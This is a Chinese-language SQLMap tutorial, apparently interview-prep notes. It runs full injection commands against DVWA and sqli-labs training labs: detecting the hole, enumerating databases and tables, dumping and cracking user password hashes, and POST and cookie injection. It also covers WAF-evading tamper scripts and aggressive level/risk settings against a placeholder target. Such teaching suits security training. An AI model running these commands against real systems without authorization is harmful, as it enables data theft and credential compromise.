# SQLMap 完全指南

> **目标**：掌握 SQLMap 自动化注入工具，能独立完成从检测到数据导出的全流程，面试时能口述核心参数和绕过技巧。
> **前置知识**：已完成 SQL 注入原理学习（联合查询、盲注、报错注入）

---

## 一、SQLMap 简介

### 1.1 什么是 SQLMap

**SQLMap** 是一款开源的自动化 SQL 注入工具，支持：

- 检测多种注入类型（Union、Boolean盲注、Time盲注、报错注入、堆叠查询）
- 自动识别数据库类型（MySQL、Oracle、MSSQL、PostgreSQL 等）
- 全自动获取数据库名、表名、列名、数据
- 文件读写、命令执行（高权限）
- 绕过 WAF 的 Tamper 脚本

### 1.2 为什么面试要问 SQLMap

| 考察点 | 面试官想知道什么 |
|--------|---------------|
| 工具使用 | 你是否会用自动化工具提高效率 |
| 原理理解 | 你知道 SQLMap 背后是怎么检测注入的 |
| 绕过能力 | WAF 拦截时，你会用 Tamper 脚本 |
| 安全意识 | 知道 SQLMap 的 --batch 和 --risk 风险 |

### 1.3 SQLMap vs 手工注入

| 对比项 | 手工注入 | SQLMap |
|--------|---------|--------|
| 速度 | 慢，需逐条构造 Payload | 快，自动化检测 |
| 精度 | 高，完全可控 | 中，可能误报/漏报 |
| 学习价值 | 高，理解原理 | 中，理解工具逻辑 |
| 面试要求 | 必须会（原理） | 必须会（效率） |
| 实际工作 | 复杂场景需手工 | 常规扫描用 SQLMap |

**面试一句话**："手工注入理解原理，SQLMap 提高效率，两者结合才是最佳实践。"

---

## 二、SQLMap 安装与基础配置

### 2.1 安装方式

#### 方式一：Python pip 安装（推荐）

```bash
# 确保 Python 3.x 已安装
python --version

# 安装 SQLMap
pip install sqlmap

# 验证安装
sqlmap --version
```

#### 方式二：Git 克隆（最新版）

```bash
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git
cd sqlmap
python sqlmap.py --version
```

#### 方式三：Kali Linux 自带

```bash
# Kali 已预装
sqlmap --version
```

### 2.2 基础参数速查表

| 参数 | 全称 | 作用 | 使用频率 |
|------|------|------|---------|
| `-u` | `--url` | 指定目标 URL | ⭐⭐⭐⭐⭐ |
| `--dbs` | `--databases` | 获取所有数据库名 | ⭐⭐⭐⭐⭐ |
| `--tables` | `--tables` | 获取表名 | ⭐⭐⭐⭐⭐ |
| `--columns` | `--columns` | 获取列名 | ⭐⭐⭐⭐⭐ |
| `--dump` | `--dump` | 导出数据 | ⭐⭐⭐⭐⭐ |
| `-D` | `--db` | 指定数据库 | ⭐⭐⭐⭐ |
| `-T` | `--table` | 指定表 | ⭐⭐⭐⭐ |
| `-C` | `--column` | 指定列 | ⭐⭐⭐⭐ |
| `--batch` | `--batch` | 自动选择默认选项 | ⭐⭐⭐⭐⭐ |
| `--level` | `--level` | 检测等级(1-5) | ⭐⭐⭐⭐ |
| `--risk` | `--risk` | 风险等级(1-3) | ⭐⭐⭐⭐ |
| `--tamper` | `--tamper` | 使用绕过脚本 | ⭐⭐⭐⭐ |
| `--cookie` | `--cookie` | 指定 Cookie | ⭐⭐⭐⭐ |
| `--data` | `--data` | POST 数据 | ⭐⭐⭐⭐ |
| `--threads` | `--threads` | 线程数 | ⭐⭐⭐ |
| `-v` | `--verbose` | 详细程度 | ⭐⭐⭐ |

---

## 三、SQLMap 实操：DVWA Less-1

### 3.1 环境准备

**目标**：DVWA Low 级别，SQL Injection 模块，Less-1

**URL**：`http://192.168.133.100:8002/vulnerabilities/sqli/?id=1&Submit=Submit#`

**步骤**：
1. DVWA Security -> Low -> Submit
2. 左侧点 SQL Injection
3. 确认页面正常显示 id=1 的用户信息

### 3.2 检测注入点

```bash
sqlmap -u "http://192.168.133.100:8002/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie "PHPSESSID=8ortii4hsvqrhjvgj9k29l4oit; security=low" \
       --batch
```



**参数说明**：

- `-u`：目标 URL（带参数）
- `--cookie`：DVWA 需要登录态，从浏览器复制 Cookie
- `--batch`：自动回答所有提示（默认选项）

**预期输出**：
```
[14:32:01] [INFO] testing connection to the target URL
[14:32:01] [INFO] checking if the target is protected by some WAF/IPS
[14:32:01] [INFO] testing if the target URL content is stable
[14:32:02] [INFO] target URL content is stable
[14:32:02] [INFO] testing GET parameter 'id' for dynamic content
...
[14:32:05] [INFO] GET parameter 'id' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable
```




### 3.3 获取数据库名

```bash
sqlmap -u "http://192.168.133.100:8002/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie "PHPSESSID=8ortii4hsvqrhjvgj9k29l4oit; security=low" \
       --dbs --batch
```

**预期输出**：
```
available databases [2]:
[*] dvwa
[*] information_schema
```



### 3.4 获取表名

```bash
sqlmap -u "http://192.168.133.100:8002/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie "PHPSESSID=8ortii4hsvqrhjvgj9k29l4oit; security=low" \
       -D dvwa --tables --batch
```

**参数说明**：
- `-D dvwa`：指定数据库为 dvwa
- `--tables`：获取该数据库下的所有表

**预期输出**：
```
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+
```

### 

```bash
sqlmap -u "http://192.168.133.100:8002/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie "PHPSESSID=8ortii4hsvqrhjvgj9k29l4oit; security=low" \
       -D dvwa -T users --columns --batch
```

**预期输出**：
```
Database: dvwa
Table: users
[8 columns]
+--------------+-------------+
| Column       | Type        |
+--------------+-------------+
| user_id      | int(6)      |
| first_name   | varchar(15) |
| last_name    | varchar(15) |
| user         | varchar(15) |
| password     | varchar(32) |
| avatar       | varchar(70) |
| last_login   | timestamp   |
| failed_login | int(3)      |
+--------------+-------------+
```



### 3.6 导出数据

```bash
sqlmap -u "http://192.168.133.100:8002/vulnerabilities/sqli/?id=1&Submit=Submit" \
       --cookie "PHPSESSID=8ortii4hsvqrhjvgj9k29l4oit; security=low" \
       -D dvwa -T users -C user,password --dump --batch
```

**参数说明**：
- `-C user,password`：只导出 user 和 password 两列
- `--dump`：导出数据

**预期输出**：
```
Database: dvwa
Table: users
[5 entries]
+---------+----------------------------------+
| user    | password                         |
+---------+----------------------------------+
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 |
| gordonb | e99a18c428cb38d5f260853678922e03 |
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 |
+---------+----------------------------------+
```



### 3.7 自动破解密码哈希

SQLMap 检测到 MD5 哈希会自动尝试破解：

```
[14:35:01] [INFO] recognized possible password hashes in column 'password'
[14:35:01] [INFO] starting dictionary-based cracking (md5_passwd)
[14:35:02] [INFO] cracked password 'password' for user 'admin'
[14:35:02] [INFO] cracked password 'abc123' for user 'gordonb'
...
```



---

## 四、SQLMap 高级用法

### 4.1 POST 注入

**场景**：**sqli-labs** Less-11（登录框 POST 注入）

```bash
sqlmap -u "http://192.168.133.100:8001/Less-11/" \
       --data "uname=admin&passwd=password&submit=Submit" \
       --batch
```

**参数说明**：
- `--data`：POST 请求体数据



### 4.2 Cookie 注入

**场景**：**sqli-labs** Less-20（Cookie 注入）

```bash
sqlmap -u "http://192.168.133.100:8001/Less-20/index.php" \
       --cookie "uname=admin; PHPSESSID=8ortii4hsvqrhjvgj9k29l4oit" \
       --level 2 \
       --batch
```

**参数说明**：
- `--level 2`：检测 Cookie 参数（默认 level=1 只检测 GET/POST）





### 4.3 指定注入点（加 * 号）

**场景**：URL 中有多个参数，只想测试其中一个

```bash
sqlmap -u "http://192.168.133.100:8002/vulnerabilities/sqli/?id=1*&Submit=Submit" \
       --cookie "PHPSESSID=8ortii4hsvqrhjvgj9k29l4oit; security=low" \
       --batch
```

**说明**：在 `id=1*` 的 `1` 后面加 `*`，SQLMap 只测试这个参数。

- 

### 4.4 提升检测等级

```bash
sqlmap -u "http://target.com/page.php?id=1" \
       --level 5 --risk 3 --batch
```

**参数说明**：
- `--level 1-5`：检测深度，level 越高检测越全面（Cookie、HTTP头等）
- `--risk 1-3`：风险等级，risk 越高 Payload 越激进（可能破坏数据）

| level | 检测范围 |
|-------|---------|
| 1 | GET/POST 参数（默认） |
| 2 | + Cookie |
| 3 | + User-Agent/Referer |
| 4 | + 更多 HTTP 头 |
| 5 | + 所有可能位置 |

---

## 五、Tamper 脚本绕过 WAF

### 5.1 什么是 Tamper 脚本

Tamper 脚本用于 **编码/混淆 Payload**，绕过 WAF（Web 应用防火墙）的检测规则。

### 5.2 常用 Tamper 脚本

| Tamper 脚本 | 作用 | 适用场景 |
|------------|------|---------|
| `base64encode` | Base64 编码 | WAF 不解码 Base64 |
| `space2comment` | 空格替换为 `/**/` | 过滤空格 |
| `space2plus` | 空格替换为 `+` | URL 编码场景 |
| `charencode` | URL 编码所有字符 | 全面编码绕过 |
| `randomcase` | 随机大小写 | 过滤关键字（如 SELECT） |
| `multiplespaces` | 多个空格替换单个 | 简单绕过 |
| `between` | `>` 替换为 `BETWEEN` | 过滤比较符 |
| `apostrophemask` | `'` 替换为 `%EF%BC%87` | 过滤单引号 |
| `equaltolike` | `=` 替换为 `LIKE` | 过滤等号 |

### 5.3 使用 Tamper 脚本

```bash
sqlmap -u "http://target.com/page.php?id=1" \
       --tamper "space2comment,base64encode" \
       --batch
```

**参数说明**：
- `--tamper`：多个脚本用逗号分隔，按顺序执行

### 5.4 查看所有 Tamper 脚本

```bash
# Linux/Kali
ls /usr/share/sqlmap/tamper/

sqlmap --list-tampers

# 或 Python 安装路径
ls $(python -c "import sqlmap; print(sqlmap.__path__[0])")/tamper/
```

